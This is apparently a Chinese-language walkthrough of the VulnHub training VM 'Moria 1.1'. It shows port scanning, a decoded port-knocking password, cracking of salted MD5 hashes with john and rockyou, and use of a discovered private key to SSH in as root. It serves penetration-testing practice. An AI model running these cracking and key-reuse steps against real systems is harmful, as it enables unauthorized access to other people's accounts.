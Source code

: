 # Moria: 1.1

2024-8-11 https://www.vulnhub.com/entry/moria-11,187/

difficulty: Not easy

## IP

192.168.5.31

## Scan

Open Port -> 21,22,80

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
22/tcp open  ssh     OpenSSH 6.6.1 (protocol 2.0)
| ssh-hostkey:
|   2048 47b5ede3f9ad9688c0f283237fa3d34f (RSA)
|   256 85cda2d8bb85f60f4eae8caa7352ec63 (ECDSA)
|_  256 b1777e08b3a084f8f45df98ed585b934 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Gates of Moria
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
```

ftp 不能匿名访问，先对 80 web 端口进行扫描。扫描出 http://192.168.5.31/w/h/i/s/p/e/r/the_abyss/ 并且每次发访问显示的都不同，像是个对话。

再次对 /w/h/i/s/p/e/r/the_abyss/ 进行扫描，发现完整的文本 http://192.168.5.31/w/h/i/s/p/e/r/the_abyss/random.txt

```
Balin: "Be quiet, the Balrog will hear you!"
Oin:"Stop knocking!"
Ori:"Will anyone hear us?"
Fundin:"That human will never save us!"
Nain:"Will the human get the message?"
"Eru! Save us!"
"We will die here.."
"Is this the end?"
"Knock knock"
"Too loud!"
Maeglin:"The Balrog is not around, hurry!"
Telchar to Thrain:"That human is slow, don't give up yet"
Dain:"Is that human deaf? Why is it not listening?"
```

发现一个用户名: Balrog

看到有 knock 的关键字，可能存在有端口敲震，有隐藏端口。使用 wireshark 抓包，继续访问这个 web 服务，发现了其他的端口，目标机器从 1337 对 kali 机器的 77 101 108 108 111 110 54 57 端口分别进行访问，这几个端口的数字对应的 ascii 码为 Mellon69 像是个密码，使用上面的 Balorg 作为用户名，尝试登陆 ftp 和 ssh。

最终发现 ftp 能够登陆。目录下发现 .bash_history 但是不能下载，cd .. 发现进入了目标机器的 / 目录中，进入到/var/www/html 中后发现了一个目录名为 QlVraKW4fbIkXau9zkAPNGzviT3UKntl 访问后得到了

```
Prisoner's name   Passkey
Balin   c2d8960157fc8540f6d5d66594e165e0
Oin	    727a279d913fba677c490102b135e51e
Ori	    8c3c3152a5c64ffb683d78efc3520114
Maeglin	6ba94d6322f53f30aca4f34960203703
Fundin	c789ec9fae1cd07adfc02930a39486a1
Nain	fec21f5c7dcf8e5e54537cfda92df5fe
Dain	6a113db1fd25c5501ec3a5936d817c29
Thrain	7db5040c351237e8332bfbba757a1019
Telchar	dd272382909a4f51163c77da6356cc6f
```

像是 md5 的值，查看源码后，又发现了一些提示：

```
<!--
6MAp84
bQkChe
HnqeN4
e5ad5s
g9Wxv7
HCCsxP
cC5nTr
h8spZR
tb9AWe

MD5(MD5(Password).Salt)
-->
```

上面的部分应该是 salt，现在知道了加密的方式为 MD5(MD5(Password).Salt) 则构造哈希文件的格式：

```
Balin:c2d8960157fc8540f6d5d66594e165e0$6MAp84
Oin:727a279d913fba677c490102b135e51e$bQkChe
Ori:8c3c3152a5c64ffb683d78efc3520114$HnqeN4
Maeglin:6ba94d6322f53f30aca4f34960203703$e5ad5s
Fundin:c789ec9fae1cd07adfc02930a39486a1$g9Wxv7
Nain:fec21f5c7dcf8e5e54537cfda92df5fe$HCCsxP
Dain:6a113db1fd25c5501ec3a5936d817c29$cC5nTr
Thrain:7db5040c351237e8332bfbba757a1019$h8spZR
Telchar:dd272382909a4f51163c77da6356cc6f$tb9AWe
```

john --list=subformats 发现 MD5(MD5(Password).Salt) 对应的加密模式为 `UserFormat = dynamic_1007 type = dynamic_1007: md5(md5($p).$s) (vBulletin)`

```
john --format=dynamic_1007 --wordlist=/usr/share/wordlists/rockyou.txt hash

flower           (Balin)
warrior          (Nain)
spanky           (Ori)
rainbow          (Oin)
abcdef           (Dain)
fuckoff          (Maeglin)
darkness         (Thrain)
magic            (Telchar)
hunter2          (Fundin)
```

最终发现 Ori:spanky 能够登陆，发现了.ssh 文件夹中有私钥和公钥，但是不知道这个私钥是不是 Ori 用户的，/etc/passwd 中发现了 3 个可用用户：Ori、abatchy、root，用私钥挨个尝试登陆这几个用户，看看私钥是哪个用户的，known_hosts 有一条 127.0.0.1 的记录，最终发现 root 用户才是这个私钥的用户，其他两个用户用这个私钥都不能登陆成功。 ssh -i id_rsa root@127.0.0.1 登陆，登陆成功，获得了 root 权限，拿到了最终的 flag:

```
[root@Moria ~]# cat flag.txt
“All that is gold does not glitter,
Not all those who wander are lost;
The old that is strong does not wither,
Deep roots are not reached by the frost.

From the ashes a fire shall be woken,
A light from the shadows shall spring;
Renewed shall be blade that was broken,
The crownless again shall be king.”

All That is Gold Does Not Glitter by J. R. R. Tolkien

I hope you suff.. enjoyed this VM. It wasn't so hard, was it?
-Abatchy
```
